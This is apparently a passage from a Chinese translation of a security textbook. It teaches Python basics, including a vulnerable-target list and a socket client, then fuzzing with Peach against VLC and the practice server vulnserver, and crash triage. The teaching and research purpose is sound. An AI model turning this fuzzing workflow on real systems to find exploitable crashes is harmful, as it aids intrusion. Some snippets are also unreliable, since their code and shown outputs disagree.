'Dilbert'
>>> 'hero' in d
True
>>> 'Dilbert' in d   # Dictionaries are indexed by key, not value
False
>>> d.keys()    # keys() returns a list of all objects used as keys
dict_keys([['hero']])
>>> d.values()  # values() returns a list of all objects used as values
dict_keys([['Dilbert']])
>>> d['hero'] = 'Dogbert'
>>> d
{'hero': 'Dogbert'}
>>> d['buddy'] = 'Wally'
>>> d['pets'] = 2      # You can store any type of object, not just strings
>>> d
{'hero': 'Dogbert', 'buddy': 'Wally', 'pets': 2}
```

我们在下一节中还将更多地使用字典。字典是存储任何可以与键关联的值的好方法，其中键比列表的索引更有用的方式来获取值。

## Python 中的文件

文件访问与 Python 语言的其他部分一样简单。文件可以打开（用于读取或写入）、写入、读取和关闭。让我们使用本节讨论的几种不同数据类型（包括文件）来组合一个示例。此示例假设我们以一个名为 targets 的文件开始，并将文件内容传输到单独的漏洞目标文件中。（我们能听到你说：“终于，Dilbert 示例结束了！”）请注意块中使用的必要缩进。


% cat targets
RPC-DCOM   10.10.20.1,10.10.20.4
SQL-SA-blank-pw 10.10.20.27,10.10.20.28
# We want to move the contents of targets into two separate files
% python
# First, open the file for reading
>>> targets_file = open('targets', 'r')
# Read the contents into a list of strings
>>> lines = targets_file.readlines()
>>> lines
['RPC-DCOM\\t10.10.20.1,10.10.20.4\\n', 'SQL-SA-blank-pw\\t10.10.20.27,10.10.20.28\\n']
# We can also do it with a "with" statement using the following syntax:
>>> with open("targets", "r") as f:
...     lines = f.readlines()

...
>>> lines
['RPC-DCOM   10.10.20.1,10.10.20.4\n', 'SQL-SA-blank-pw
10.10.20.27,10.10.20.28\n', '\n']
# The "with" statement automatically ensures that the file is closed and
# is seen as a more appropriate way of working with files..
# Let's organize this into a dictionary
>>> lines_dictionary = {}
>>> for line in lines:    # Notice the trailing : to start a loop
...     one_line = line.split()      # split() will separate on white space
...     line_key = one_line[0]
...     line_value = one_line[1]
...     lines_dictionary[line_key] = line_value
...     # Note: Next line is blank (<CR> only) to break out of the for loop
...
>>> # Now we are back at python prompt with a populated dictionary
>>> lines_dictionary
{'RPC-DCOM': '10.10.20.1,10.10.20.4', 'SQL-SA-blank-pw':
'10.10.20.27,10.10.20.28'}
# Loop next over the keys and open a new file for each key
>>> for key in lines_dictionary.keys():
...     targets_string = lines_dictionary[key]      # value for key
...     targets_list = targets_string.split(',')      # break into list
...     targets_number = len(targets_list)
...     filename = key + '_' + str(targets_number) + '_targets'
...     vuln_file = open(filename,'w')
...     for vuln_target in targets_list:        # for each IP in list...
...             vuln_file.write(vuln_target + '\n')
...             vuln_file.close()
...
>>> ^D
% ls
RPC-DCOM_2_targets             targets
SQL-SA-blank-pw_2_targets
% cat SQL-SA-blank-pw_2_targets
10.10.20.27
10.10.20.28
% cat RPC-DCOM_2_targets
10.10.20.1
10.10.20.4

本示例介绍了几个新概念。首先，你现在看到使用文件是多么容易。open() 接受两个参数：第一个是你想要读取或创建的文件名，第二个是访问类型。你可以以读取（r）、写入（w）和追加（a）模式打开文件。在字母后添加 + 会增加更多权限；例如，r+ 会导致对文件的读写访问。在权限后添加 b 会以二进制模式打开文件。

你现在有一个 for 循环示例。for 循环的结构如下：

```
for <iterator-value> in <list-to-iterate-over>:
    # Notice the colon on end of previous line
    # Notice the tab-in
    # Do stuff for each value in the list
```


> **注意** 在 Python 中，空白字符很重要，缩进用于标记代码块。大多数 Python 程序员使用四个空格的缩进。缩进在整个代码块中必须保持一致。

取消缩进一级或在空行上放置回车符会关闭循环。无需 C 风格的花括号。if 语句和 while 循环的结构类似。这是一个示例：

```
if foo > 3:
    print('Foo greater than 3')
elif foo == 3:
    print('Foo equals 3')
else:
    print('Foo not greater than or equal to 3')
...
while foo < 10:
    foo = foo + bar
```

## 用 Python 进行 Socket 编程

我们需要介绍的最后一个主题是 Python 的 socket 对象。为了演示 Python 套接字，让我们构建一个简单的客户端，它连接到远程（或本地）主机并发送 'Hello, world'。要测试此代码，我们需要一个“服务器”来监听此客户端的连接。我们可以通过将 netcat 监听器绑定到端口 4242 来模拟服务器，语法如下（你可能希望在新窗口中启动 nc）：

```
% nc -l -p 4242
```

客户端代码如下：

```
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 4242))
s.send('Hello, world')       # This returns how many bytes were sent
data = s.recv(1024)
s.close()
print('Received', data)
```

你确实需要记住导入 socket 库，然后套接字实例化行有一些需要记住的套接字选项，但其余部分很简单。你连接到主机和端口，发送你想要的内容，接收到一个对象，然后关闭套接字。当你执行此操作时，你应该看到“Hello, world”出现在你的 netcat 监听器上，以及你输入到监听器中的任何内容都会返回到客户端。作为额外学分，请尝试在 Python 中使用 bind()、listen() 和 accept() 语句模拟该 netcat 监听器。

## 摘要

本章向你介绍了编程概念和安全注意事项。道德黑客必须具备编程技能以创建漏洞利用或审查源代码，并且在逆转恶意软件或发现漏洞时需要理解汇编代码。最后但同样重要的是，调试是一项必备技能，用于在运行时分析恶意软件或跟踪内存中 shellcode 的执行。学习编程语言或逆向工程的唯一方法是通过实践，所以立刻开始行动吧！

## 进一步阅读

- “CPU 简史,” _PC 机_, March 23, 2001 (David Risley)
- www.pcmech.com/article/a-cpu-history
- 汇编语言编程艺术与 HLA (Randall Hyde) webster.cs.ucr.edu/
- ddd 调试器前端 https://www.gnu.org/software/ddd/
- 使用 NASM 和 gdb 进行调试 www.csee.umbc.edu/help/nasm/nasm.shtml
- edb 调试器 http://codef00.com/projects
- “字节序,” Wikipedia en.wikipedia.org/wiki/Endianness
- 优秀的 Python 教程 https://docs.python.org/2/tutorial/
- “C 语言编程的工作原理,” _事物如何运作_ (Marshall Brain)
- computer.howstuffworks.com/c.htm
- “C 语言编程简介,” 莱斯特大学 (Richard Mobbs) www.le.ac.uk/users/rjm1/c/index.html
- “小端序 vs. 大端序,” _Linux 杂志_, September 2, 2003 (Kevin Kaichuan He) www.linuxjournal.com/article/6788
- x86 汇编笔记, 1997 (Phil Bowman) www.cntech.com/code/x86asm.txt
- “指针：理解内存地址,” _事物如何运作_ (Marshall Brain)
- computer.howstuffworks.com/c23.htm
- “C 语言中的编程方法论” (Hugh Anderson) www.comp.nus.edu.sg/~hugh/TeachingStuff/cs1101c.pdf
- Python 主页 www.python.org
- Python Tutor www.pythontutor.com
- “为乐趣和利益而粉碎栈” (Aleph One) www.phrack.org/issues.html?issue=49&id=14#article
- x86 寄存器 www.eecg.toronto.edu/~amza/www.mindsec.com/files/x86regs.html
- x64 架构 https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/x64-architecture

## 参考文献

- 1. Danny Cohen，“圣战与和平之恳。”Internet 实验注释 (IEN) 137, 1980年4月1日, www.ietf.org/rfc/ien/ien137.txt.
- 2. Guido Van Rossum，“[Python-Dev] Python 3.0 中 Print 的替代方案,” 2006年9月4日, mail.python.org, https://mail.python.org/pipermail/python-dev/2005-September/056154.html.

## 下一代模糊测试

本章向你展示如何使用模糊测试技术进行软件测试和漏洞发现。最初，模糊测试（或 _模糊测试_）是一种黑盒软件和硬件测试类别，其中用于执行测试的数据是随机生成的。多年来，随着许多研究人员的关注并对原始想法进行了扩展，模糊测试不断发展。（参见“进一步阅读”，了解 Charlie Miller、Michal Zalewski、Jared DeMott、Gynvael Coldwind、Mateusz Jurczyk 等人的优秀作品。）当今，模糊测试工具支持黑盒和白盒测试方法，并具有许多可调参数。这些参数影响模糊测试过程，并用于针对特定问题微调测试过程。通过理解不同的方法及其参数，你将能够使用此测试技术获得最佳结果。

在本章中，我们将讨论以下主题：

- 模糊测试简介
- 模糊测试器类型
- 使用 Peach 进行变异模糊测试
- 使用 Peach 进行生成模糊测试
- 使用 AFL 进行遗传或进化模糊测试

## 模糊测试简介

进入漏洞研究的最快方法之一是通过软件测试。从漏洞研究的角度来看，传统的黑盒软件测试很有趣，因为它不需要理解软件的内部机制。开始寻找漏洞的唯一要求是知道哪些接口允许与软件交互，并生成通过这些接口传递的数据。

模糊测试或模糊测试是一种软件和硬件测试类别，其中用于执行测试的数据是随机生成的。这样一来，生成输入数据的问题被大大简化，有时不需要了解软件的内部工作原理或输入数据的结构。这可能看起来是一种过度简化的方法，但已被证明可以产生结果并在软件中发现相关的安全漏洞。

多年来，人们对改进软件测试和模糊测试技术进行了大量研究。当今，模糊测试不再意味着使用随机生成的数据作为输入测试的手段，而是更广泛地用于描述通过各种方式验证输入。

本章探讨了模糊测试的过程，并审查了改进的几个想法


模糊测试中应当引导发现更多安全漏洞的不同阶段。

## 模糊器类型

我们之前已提到，模糊器随着时间的推移不断发展，不再完全基于随机数据生成。由于模糊测试并非精确科学，鼓励尝试不同的模糊器类型和参数。

以下是基于数据生成算法的常见模糊器分类列表：

- 变异模糊器
- 生成模糊器
- 遗传或进化模糊器

### 变异模糊器

基于变异的模糊器，也称为*愚蠢模糊器*，是最简单的变体，最接近随机化输入数据的最初构想。名称源于改变（变异）输入数据，通常以随机方式进行。然后将变异后的数据作为输入用于目标软件，以尝试触发软件崩溃。

### 生成模糊器

生成模糊器也称为*基于语法的*或*白盒模糊测试*，因为预先了解协议的内部工作原理。这种方法基于这样一个前提：高效的测试需要了解被测试目标的内部工作原理。生成模糊器不需要像变异模糊器那样拥有有效数据输入或协议捕获的示例。它们能够基于描述数据或协议结构的数据模型生成测试用例。这些模型通常编写为配置文件，其格式因使用它们的模糊工具而异。

生成模糊器的主要问题之一是编写数据模型。对于有可用文档的简单协议或数据结构，这不是个大问题，但由于其简单性，此类案例很少，也没什么意思。

实际上，情况要复杂得多，规范和文档的可用性仍需要付出巨大努力才能正确转换为模糊测试模型。当软件公司不遵循规范，而是对其进行微小修改，甚至引入规范中未提及的新功能时，情况会变得更加复杂。在这种情况下，有必要为目标软件定制模型，这需要额外的努力。

### 遗传模糊测试

遗传模糊测试也称为*进化模糊测试*，因为工具根据随时间最大化代码覆盖率来确定最佳输入测试集。实际上，模糊器会注意到达到新代码块的输入变异，并将这些变异输入保存到测试集（corpus）中。从这个意义上说，模糊测试工具可以以“适者生存”的方式学习——因此有了*遗传*或*进化模糊测试*这一术语。

## 使用 Peach 进行变异模糊测试

本节介绍了 Peach 变异模糊器的概览，应该能为您提供足够的信息，开始尝试模糊测试并查找漏洞。

Peach 框架可用于 Windows、Linux 和 OS X 操作系统。在 Linux 和 OS X 上，运行 Peach 需要一个名为 Mono 的跨平台 .NET 开发框架。在本节中，我们使用 Windows 10 的 64 位版本。如果您选择使用不同的平台，您的步骤和输出可能与本章中略有不同。

如前所述，变异模糊测试是一个非常有趣的想法，因为从用户角度来看，它通常不需要太多工作。需要选择一组样本作为变异程序的输入，然后即可开始模糊测试。

要使用 Peach 开始模糊测试，必须创建一个名为 Pit 的文件。Peach Pit 文件是 XML 文档，包含模糊测试会话的完整配置。以下是 Pit 文件中包含的典型信息：

- 一般配置：定义与模糊测试参数无关的事项（例如，Python 路径）。
- 数据模型：定义将使用 Peach 规范语言进行模糊测试的数据结构。
- 状态模型：定义状态机，以便在简单数据模型不足以捕获所有协议规范时，正确表示协议。
- 代理和监视器：定义 Peach 如何分配模糊测试工作负载，以及监视目标软件以查找故障/漏洞的迹象。
- 测试配置：定义 Peach 如何创建每个测试用例，以及将使用哪些模糊测试策略来修改数据。

创建变异 Pits 相当容易，Peach 提供了多个可供检查和修改的模板，以适应不同的场景。Pit 配置可以使用任何文本编辑器（或者更具体地说，是 XML 编辑器之一）来创建和修改。Peach 文档建议使用 Microsoft Visual Studio Express，但即使是 Notepad++ 或 Vim 也足以完成此任务。

以下是 rm_fuzz.xml Peach Pit 文件：

```
<?xml version="1.0" encoding="utf-8"?>
<Peach xmlns=http://peachfuzzer.com/2012/Peach
xmlns:xsi=http://www.w3.org/2001/XMLSchema-instance
xsi:schemaLocation="http://peachfuzzer.com/2012/Peach /peach/peach.xsd">
<!-- Create data model -->
<DataModel name="TheDataModel">
<Blob/>
</DataModel>
<!-- Create state model -->
<StateModel name="TheState" initialState="Initial">
<State name="Initial">
<Action type="output">
<DataModel ref="TheDataModel"/>
<Data fileName="C:\peach3\rm_samples\*.rm" />
</Action>
<Action type="close"/>
<Action type="call" method="ScoobySnacks" publisher="Peach.Agent"/>
</State>
</StateModel>
<!-- Configure Agent -->
<Agent name="TheAgent">
<Monitor class="WindowsDebugger">
<Param name="CommandLine" value="C:\Program Files (x86)\VideoLAN\VLC\vlc.exe fuzzed.rm" />
<Param name="WinDbgPath" value="C:\Program Files (x86)\Windows Kits\10\Debuggers\x64" />
<Param name="StartOnCall" value="ScoobySnacks"/>
</Monitor>
<Monitor class="PageHeap">
<Param name="Executable" value="vlc.exe"/>
<Param name="WinDbgPath" value="C:\Program Files (x86)\Windows Kits\10\Debuggers\x64" />
</Monitor>
</Agent>
<Test name="Default">
<Agent ref="TheAgent"/>
<StateModel ref="TheState"/>
<!-- Configure a publisher -->
<Publisher class="File">
<Param name="FileName" value="fuzzed.rm"/>
</Publisher>
<!-- Configure a strategy -->
<Strategy class="RandomDeterministic"/>
<Logger class="File">
<Param name="Path" value="logs"/>
</Logger>
</Test>
</Peach>
<!-- end -->
```

Pit 文件由多个重要部分组成，这些部分将影响并决定模糊测试过程。以下是这些部分及其如何影响此 Pit 文件模糊测试过程的列表：

- DataModel（1 和 2）：定义将被模糊测试的数据结构。在黑盒测试中，DataModel 通常是未知的，并由单个数据条目 <Blob/> 表示，它描述任意二进制数据单元，不对数据（无论是值还是顺序）强制执行任何约束。如果省略数据模型，Peach 将无法确定数据类型及其各自的大小，导致一种有些不精确的数据修改方法。另一方面，省略数据模型会减少启动模糊测试所需的时间。由于黑盒模糊测试设置起来非常快速且廉价，通常在着手开发更好的数据模型的同时，开始黑盒测试是值得的。

- StateModel（3 和 4）：定义数据在应用程序模糊测试过程中可能经历的不同状态。对于文件模糊测试，状态模型非常简单，因为只生成并使用一个文件进行测试。

模糊测试网络协议是状态模型发挥重要作用的一个好示例。要探索协议实现中的不同状态，有必要正确遍历状态图。定义 StateModel 将指导模糊器如何遍历状态图，从而允许测试更多代码和功能，进而提高发现漏洞的机会。

- Agent（5 和 6）：定义将用于监视目标程序执行并收集崩溃信息的调试器。收集到的崩溃数据随后需要手动审查，并分类为相关或不相关。相关崩溃随后应再次审查，以检查可利用条件并确定其价值。

- Test（7 和 8）：定义与测试（模糊测试）过程相关的配置选项。在此示例中，它将为生成的测试用例定义文件名 fuzzed.rm，并将 logs 定义为包含程序崩溃数据的日志目录。

要测试编写的 Pit 是否具有有效结构，Peach 提供了多种解决方案。首先要做的是使用 --test 命令测试并验证 Pit，它将对 Pit 文件执行解析遍历并报告发现的任何问题。以下是测试 Pit XML 的示例：

```
C:\peach3>Peach.exe -t rm_fuzz.xml

[[ Peach v3.1.124.0
[[ Copyright (c) Michael Eddington

[*] Validating file [rm_fuzz.xml]... No Errors Found.
```

以下显示如何使用之前创建的 Pit 文件启动新的 Peach 会话：


C:\peach3>Peach.exe rm_fuzz.xml Default

```
[ Peach v3.1.124.0
[ Copyright (c) Michael Eddington
```

[*] 测试“Default”正在使用随机种子 41362 启动。

```
[1,-,-] Performing iteration
```

```
[1,-,-] Performing iteration
[*] Fuzzing: TheDataModel.DataElement_0
[*] Mutator: DataElementSwapNearNodesMutator
```

```
[2,-,-] Performing iteration
[*] Fuzzing: TheDataModel.DataElement_0
[*] Mutator: BlobDWORDSliderMutator
```

```
[3,-,-] Performing iteration
[*] Fuzzing: TheDataModel.DataElement_0
[*] Mutator: BlobMutator
...
```

有时需要停止模糊测试仪并在其运行的机器上执行维护。对于此类情况，Peach 允许轻松停止和恢复会话。要停止当前的 Peach 会话，只需在其终端窗口中按 CTRL-C。挂起会话将产生以下 Peach 输出：

```
[11,-,-] Performing iteration
[*] Fuzzing: TheDataModel.DataElement_0
[*] Mutator: BlobBitFlipperMutator
--- Ctrl+C Detected ---
```

```
C:\peach3>
```

已终止会话的结果可以在 Peach “logs” 目录下的会话文件夹中查看。logs 目录中的文件夹采用一种命名方案，即在用于模糊测试的 Pit XML 配置文件名后追加目录创建时的当前时间戳（例如，rm_fuzz.xml_2017051623016）。会话目录中有一个 status.txt 文件，包含有关会话的信息，例如测试的用例数量以及生成崩溃的时间和文件名信息。如果会话成功，会话文件夹中还会存在一个名为 Faults 的其他文件夹。Faults 目录为每个检测到的崩溃类别包含一个单独的文件夹。在这些每个崩溃簇中包含一个或多个测试用例，其中包含以下信息：

- 触发崩溃的变异测试用例。
- 关于崩溃时程序状态的调试报告。此报告包括处理器寄存器的状态和值、一部分堆栈内容，以及从 WinDbg 插件 !exploitable 收集的信息，该插件提供自动化崩溃分析和安全风险评估。
- 用于创建此特定变异的原始测试用例名称。

可以通过跳过已执行的测试来恢复会话。关于模糊测试仪最后执行的测试用例的信息，可以在会话名称下的 Logs 文件夹中的 status.txt 文件中查看：

```
Peach Fuzzing Run
===================
Date of run: 5/29/2017 2:19:30 PM
Peach Version: 3.1.124.0
Seed: 31337
Command line: rm_fuzz.xml
Pit File: rm_fuzz.xml
. Test starting: Default
. Iteration 1 : 5/29/2017 2:19:32 PM
. Iteration 1 of 131795 : 5/29/2017 2:19:33 PM
. Iteration 200 of 131795 : 5/29/2017 2:39:57 PM
. Iteration 300 of 131795 : 5/29/2017 3:14:24 PM
...
```

查看 Peach 在模糊测试期间执行的进度和迭代次数的另一种方法是在命令行输出中，它将在列表的第一个条目中显示迭代编号。在以下示例中，当前测试的迭代编号为 13：

```
...
[13,131795,1515:0:24:09.925] Performing iteration
[*] Fuzzing: TheDataModel.DataElement_0
[*] Mutator: BlobBitFlipperMutator
...
```

需要牢记的一件事是，只有在所选的模糊测试策略是确定性的时，恢复模糊测试会话才具有实际价值。当你使用“random”策略时，恢复先前的会话没什么区别。

要恢复会话，只需像之前所示运行 Pit 文件，并使用 --skipto 选项跳转到特定的测试用例编号。这里展示了跳过 100 个测试的示例：

C:\peach3>Peach.exe --skipto 100 rm_fuzz.xml

```
[ Peach v3.1.124.0
[ Copyright (c) Michael Eddington
```

[*] 测试“Default”正在使用随机种子 31337 启动。

```
[100,-,-] Performing iteration
```

```
[100,9525022,1660:5:55:40.38] Performing iteration
[*] Fuzzing: TheDataModel.DataElement_0
[*] Mutator: BlobBitFlipperMutator
```

```
[101,9525022,2950:17:47:42.252] Performing iteration
[*] Fuzzing: TheDataModel.DataElement_0
[*] Mutator: BlobBitFlipperMutator
...
```

## Lab 3-1：使用 Peach 进行变异模糊测试

在本实验中，我们将使用 Pit 文件研究使用 Peach 进行变异模糊测试。要成功完成本实验，请按照以下步骤操作（这些步骤假设使用 64 位版本的 Windows 10）：

- 1. 从 https://www.videolan.org/vlc 下载并安装 VLC 应用程序。
- 2. 为你的 Windows 版本安装 Windows 调试器工具（适用于 Windows 10）：https://developer.microsoft.com/en-us/windows/downloads/windows-10-sdk。安装过程中，选择“Windows 调试器工具”选项并取消选中其他项。
- 3. 使用 http://community.peachfuzzer.com/v3/installation.html 中的说明，从 www.peachfuzzer.com/resources/peachcommunity 的链接下载并安装 Peach 3。右键单击文件 peach-3.1.124-win-x64-release.zip。将 Peach 3 安装到 C:\peach3\ 目录中。


> 注意 在 Windows 10 上，你必须在默认解压之前“取消阻止”下载的 .zip 文件（右键单击，在安全选项下选择“取消阻止”）。否则，你会收到“错误，无法加载平台程序集 ‘Peach.Core.OS.Windows.dll’。此程序集 [sic] 属于 Internet 安全区，加载已被阻止。”

- 4. 使用以下 Google 搜索查询查找大约六个 .rm（RealMedia）测试文件，并将它们下载到（新）目录 C:\peach3\rm_samples 中：
- intitle:"index of /" .rm

注意 谨慎处理从互联网获取的 .rm 文件。最好在一次性虚拟机上进行此练习，或者至少在完成后还原，并在使用前将 .rm 文件上传到 virustotal.com。

- 5. 从图书下载站点将 rm_fuzz.xml 文件复制到 C:\peach3\ 文件夹。测试你的 Peach Pit 文件：
- C:\peach3\peach -t rm_fuzz.xml

- 6. 根据需要确认并修复 VLC 应用程序和其他路径的位置。

- 7. 从管理员命令提示符运行你的 Peach Pit（Windows 10 堆监控所需）：
- C:\peach3\peach rm_fuzz.xml Default

- 8. 让此 Pit 运行一段时间（过夜），看看日志中是否列出了任何错误。（我们将在本章后面介绍崩溃分析。）

## 使用 Peach 进行生成模糊测试

如你已经看到的那样，Peach 是一款功能强大的变异模糊测试仪；然而，它实际上是一款更出色的生成模糊测试仪。在本节中，我们试图发现 Stephen Bradshaw 的 vulnserver 中的漏洞，这是一个专为学习模糊测试和漏洞利用而创建的易受攻击的服务器。

vulnserver 应用程序带有预编译的二进制文件。或者，你可以按照提供的说明从源代码编译它们。在 Windows 机器上启动 vulnserver 后，你将看到以下欢迎信息：

```
C:\Users\test\Downloads>vulnserver.exe
Starting vulnserver version 1.00
Called essential function dll version 1.00
```

> 这是易受攻击的软件！
> 不允许来自不受信任系统或网络的访问！

应当认真听取此建议：除在隔离的测试系统或主机独占模式的虚拟机上运行此软件外，切勿在其他任何地方运行。你已被警告！

你可以通过 netcat（在另一个窗口中）连接来测试易受攻击的服务器，方法如下：

```
C:\Users\test\downloads\nc111nt_safe>nc localhost 9999
Welcome to Vulnerable Server! Enter HELP for help.
HELP
Valid Commands:
HELP
STATS [stat_value]
RTIME [rtime_value]
LTIME [ltime_value]
SRUN [srun_value]
TRUN [trun_value]
GMON [gmon_value]
GDOG [gdog_value]
KSTET [kset_value]
GTER [gter_value]
HTER [hter_value]
LTER [lter_value]
KSTAN [lstan_value]
EXIT
```

既然你对 vulnserver 应用程序及其接受的命令有了一定了解，让我们创建一个针对此应用程序的 Peach Pit。因为你已经熟悉 Peach，我们将直接进入 Peach Pit。但是，这次我们将更改 DataModel 以显示有效应用程序命令的结构。为保持简单，我们将模糊测试 TRUN 命令（纯粹是因为这个名字听起来很酷）。作为本节实验的一部分，你可以模糊测试其他命令。请注意，此 Peach Pit 基于 David Um 的一篇优秀文章中的示例，而该文章本身又基于 Dejan Lukan 早先的一篇文章（有关更多信息，请参阅“进一步阅读”部分）。


<?xml version="1.0" encoding="utf-8"?>
<Peach xmlns="http://peachfuzzer.com/2012/Peach" xmlns:xsi=http://www.w3.org/2001/XMLSchema-instance
xsi:schemaLocation="http://peachfuzzer.com/2012/Peach ../peach.xsd">
①<DataModel name="DataTRUN">
<String value="TRUN" mutable="false" token="true"/>
<String value=""/>
<String value="\r\n" mutable="false" token="true"/>
</DataModel>

<StateModel name="StateTRUN" initialState="Initial">
<State name="Initial">
<Action type="input" ><DataModel ref="DataResponse"/></Action>
<Action type="output"><DataModel ref="DataTRUN"/></Action>
<Action type="input" ><DataModel ref="DataResponse"/></Action>
</State>
</StateModel>

<DataModel name="DataResponse">
<String value=""/>
</DataModel>

② <Agent name="RemoteAgent" location="tcp://127.0.0.1:9001">
<!--- Run and attach windbg to a vulnerable server. -->
<Monitor class="WindowsDebugger">
<Param name="CommandLine" value="C:\users\test\downloads\vulnserver.exe"/>
<Param name="WinDbgPath" value=" C:\Program Files (x86)\Windows Kits\10\Debuggers\x64" />
</Monitor>
</Agent>

<Test name="TestTRUN">
<Agent ref="RemoteAgent"/>
<StateModel ref="StateTRUN"/>
③ <Publisher class="TcpClient">
<Param name="Host" value="127.0.0.1"/>
<Param name="Port" value="9999"/>
</Publisher>

<Logger class="File">
<Param name="Path" value="Logs"/>
</Logger>
</Test>
</Peach>

这是基于生成的Peach Pit与之前基于变异的Peach Pit之间的主要区别：

- DataModel ① 数据模型已修改为描述TRUN命令语法，即TRUN，后跟一个可变（可模糊测试）的空格，然后是回车符（\r\n）。
- Agent ② 代理已修改为显示将启动远程Peach代理来监控应用程序进度并在需要时重启它。
- Publisher ③ 发布者已修改为演示Peach的TCP连接能力，给定易受攻击应用程序的地址和端口。

要运行此Peach Pit，我们首先需要启动Peach代理，如下所示：

```
C:\peach3>peach -a tcp
```

接下来，在管理员命令提示符中启动它并查看结果：

```
C:\peach3>peach fuzz_TRUN.xml TestTRUN

[[ Peach v3.1.124.0
[[ Copyright (c) Michael Eddington

[*] Test 'TestTRUN' starting with random seed 59386.

[R1,-,-] Performing iteration

[1,-,-] Performing iteration
[*] Fuzzing: DataTRUN.DataElement_1
[*] Mutator: UnicodeBomMutator

[2,-,-] Performing iteration
[*] Fuzzing: DataTRUN.DataElement_1
[*] Mutator: DataElementRemoveMutator

[3,-,-] Performing iteration
[*] Fuzzing: DataTRUN.DataElement_1
[*] Mutator: DataElementRemoveMutator

[4,-,-] Performing iteration
[*] Fuzzing: DataTRUN.DataElement_1
[*] Mutator: UnicodeBomMutator

[5,-,-] Performing iteration
[*] Fuzzing: DataTRUN.DataElement_1
[*] Mutator: UnicodeBadUtf8Mutator

[6,-,-] Performing iteration
[*] Fuzzing: DataTRUN.DataElement_1
[*] Mutator: DataElementDuplicateMutator

[7,-,-] Performing iteration
[*] Fuzzing: DataTRUN.DataElement_1
[*] Mutator: UnicodeBomMutator

...
```

模糊测试器现在正在运行，观察一段时间后，我们注意到以下情况：


注意：取决于您的种子值，您的计数可能不同，这完全没问题。

```
...
[185,-,-] Performing iteration
[*] Fuzzing: DataTRUN.DataElement_1
[*] Mutator: UnicodeBadUtf8Mutator
-- Caught fault at iteration 185, trying to reproduce --
[185,-,-] Performing iteration
[*] Fuzzing: DataTRUN.DataElement_1
[*] Mutator: UnicodeBadUtf8Mutator
-- Reproduced fault at iteration 185 --
[186,-,-] Performing iteration
[*] Fuzzing: DataTRUN.DataElement_1
[*] Mutator: UnicodeBadUtf8Mutator
...
```

可以看出，模糊测试器发现了一个异常并成功复现了它。

## 崩溃分析

在模糊测试会话期间，如果一切按计划进行，目标应用程序崩溃应该会留下一些日志。根据使用的模糊测试器不同，可用的崩溃痕迹也会不同。以下是一些常见的崩溃痕迹：

- 可用于复现崩溃的示例文件或数据记录。对于文件模糊测试器，用于测试的示例文件将被存储并标记为待审查。对于网络应用程序模糊测试器，当检测到应用程序崩溃时，可能会记录和存储PCAP文件。示例文件和数据记录是跟踪应用程序崩溃的最基础方式；它们不提供有关崩溃的上下文。
- 应用程序崩溃日志文件可以通过多种方式收集。通常，使用调试器来监控目标应用程序状态并检测任何崩溃迹象。当检测到崩溃时，调试器将收集有关CPU上下文（例如寄存器和堆栈内存的状态）的信息，这些信息将与崩溃示例文件一起存储。崩溃日志对于了解崩溃类型以及进行崩溃聚类很有用。有时，应用程序可能会因同一个错误而崩溃数百次。如果没有崩溃上下文，就很难确定漏洞之间有多大差异。崩溃日志为将崩溃过滤和分组到独特漏洞中提供了绝佳的第一步。
- 当检测到应用程序崩溃时，可以运行许多自定义脚本来收集特定类型的信息。实现此类脚本的最简单方法是扩展调试器。!exploitable是这样一个有用的调试器扩展。它由Microsoft为WinDbg开发，可用于检查崩溃是否可利用。应该指出，尽管!exploitable很有用，并可以提供有关崩溃及其分类的有价值信息，但不应完全信赖。要彻底确定崩溃是否可利用，应该手动执行分析，因为确定漏洞的价值通常取决于研究人员。

使用Peach作为框架在处理崩溃时会带来一些不错的好处。Peach使用WinDbg和!exploitable扩展来收集有关崩溃的上下文信息，并能够进行一些崩溃聚类。

Peach将在Fault目录下的文件夹中组织所有崩溃数据。以下是Peach的Fault目录结构示例：

```
C:\peach3>cd logs
C:\peach3\Logs>dir

Directory of C:\peach3\Logs

05/29/2017  04:46 PM    <DIR>          .
05/29/2017  04:46 PM    <DIR>          ..
05/29/2017  04:46 PM    <DIR>          fuzz_TRUN.xml_TestTRUN_20170529164646
05/29/2017  04:47 PM    <DIR>          fuzz_TRUN.xml_TestTRUN_20170529164655
...
```

深入第二次测试运行，我们在Faults目录中找到以下目录列表：

```
C:\peach3\Logs\fuzz_TRUN.xml_TestTRUN_20170529164655\Faults>dir

05/29/2017  04:47 PM    <DIR>          .
05/29/2017  04:47 PM    <DIR>          ..
05/29/2017  04:47 PM    <DIR>          EXPLOITABLE_0x1ble681f_0x191a342e
...
```

深入挖掘后，我们找到实际测试用例ID（185）及其内容：

```
C:\peach3\Logs\fuzz_TRUN.xml_TestTRUN_20170529164655\Faults\EXPLOITABLE_0x1ble681f_0x191a342e\185>dir
Volume in drive C has no label.
Volume Serial Number is 8E73-2A28

Directory of
C:\peach3\Logs\fuzz_TRUN.xml_TestTRUN_20170529164655\Faults\EXPLOITABLE_0x1ble681f_0x191a342e\185

05/29/2017  04:47 PM    <DIR>          .
05/29/2017  04:47 PM    <DIR>          ..
05/29/2017  04:47 PM                 51 1.Initial.Action.bin
05/29/2017  04:47 PM             3,270 2.Initial.Action_1.bin
05/29/2017  04:47 PM                 0 3.Initial.Action_2.bin
05/29/2017  04:47 PM    <DIR>          Initial
05/29/2017  04:47 PM             4,987 RemoteAgent.Monitor.WindowsDebugEngine.description.txt
05/29/2017  04:47 PM             4,987 RemoteAgent.Monitor.WindowsDebugEngine.StackTrace.txt
               5 File(s)           13,295 bytes
               3 Dir(s)  401,242,869,760 bytes free
```

在测试用例185文件夹下的五个文件中，


RemoteAgent.Monitor.WindowsDebugEngine.description.txt 包含关于崩溃的最佳信息。接下来呈现一个崩溃日志示例（为简洁起见，已删除某些行）：

```
C:\peach3\Logs\fuzz_TRUN.xml_TestTRUN_20170529164655\Faults\EXPLOITABLE_0x1b1e681f_0x191a342e\185>type RemoteAgent.Monitor.WindowsDebugEngine.description.txt
******************************************************************************** Symbol Path validation summary **************************************************************************************
Response                   Time (ms)     Location
Deferred                   SRV*http://msdl.microsoft.com/download/symbols

 Microsoft (R) Windows Debugger Version 10.0.15063.400 AMD64
Copyright (c) Microsoft Corporation. All rights reserved.

CommandLine: C:\users\test\downloads\vulnserver.exe

******************************************************************************** Symbol Path validation summary **************************************************************************************
Response                   Time (ms)     Location
Deferred                   SRV*http://msdl.microsoft.com/download/symbols
Symbol search path is: SRV*http://msdl.microsoft.com/download/symbols
Executable search path is:
ModLoad: 00000000`00400000 00000000`00407000   image00000000`00400000
